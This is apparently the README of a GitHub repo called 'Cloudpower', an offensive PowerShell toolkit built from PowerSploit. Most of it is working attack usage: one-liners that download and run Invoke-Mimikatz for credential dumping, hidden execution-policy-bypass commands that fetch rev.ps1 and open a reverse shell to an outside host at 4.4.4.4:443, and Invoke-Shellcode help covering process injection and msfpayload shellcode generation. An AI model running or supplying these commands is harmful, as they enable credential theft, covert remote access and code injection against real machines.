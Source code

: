 # Cloudpower
test for interest
The Invoke-Mimikatz & Invoke-Shellcode is from https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/

# Help for Invoke-Mimikatz:
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/Invoke-mimi.ps1'); Invoke-Mimikatz



# Help for rev.ps1:
It's a reverse_tcp payload, please set a listener, then do as below:

winx86:

powershell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

winx64:

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

# Help for Invoke-Shellcode:
.SYNOPSIS

Inject shellcode into the process ID of your choosing or within the context of the running PowerShell process.
PowerSploit Function: Invoke-Shellcode
Author: Matthew Graeber (@mattifestation)
License: BSD 3-Clause
Required Dependencies: None
Optional Dependencies: None
 
.DESCRIPTION

Portions of this project was based upon syringe.c v1.2 written by Spencer McIntyre
PowerShell expects shellcode to be in the form 0xXX,0xXX,0xXX. To generate your shellcode in this form, you can use this command from within Backtrack (Thanks, Matt and g0tm1lk):
msfpayload windows/exec CMD="cmd /k calc" EXITFUNC=thread C | sed '1,6d;s/[";]//g;s/\\/,0/g' | tr -d '\n' | cut -c2- 
Make sure to specify 'thread' for your exit process. Also, don't bother encoding your shellcode. It's entirely unnecessary.
 
.PARAMETER ProcessID

Process ID of the process you want to inject shellcode into.

.PARAMETER Shellcode

Specifies an optional shellcode passed in as a byte array

.PARAMETER Force

Injects shellcode without prompting for confirmation. By default, Invoke-Shellcode prompts for confirmation before performing any malicious act.

.EXAMPLE

 C:\PS> Invoke-Shellcode -ProcessId 4274

-----------
Inject shellcode into process ID 4274.

.EXAMPLE

C:\PS> Invoke-Shellcode

-----------
Inject shellcode into the running instance of PowerShell.

.EXAMPLE

C:\PS> Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)

-----------
Overrides the shellcode included in the script with custom shellcode - 0x90 (NOP), 0x90 (NOP), 0xC3 (RET)
Warning: This script has no way to validate that your shellcode is 32 vs. 64-bit!
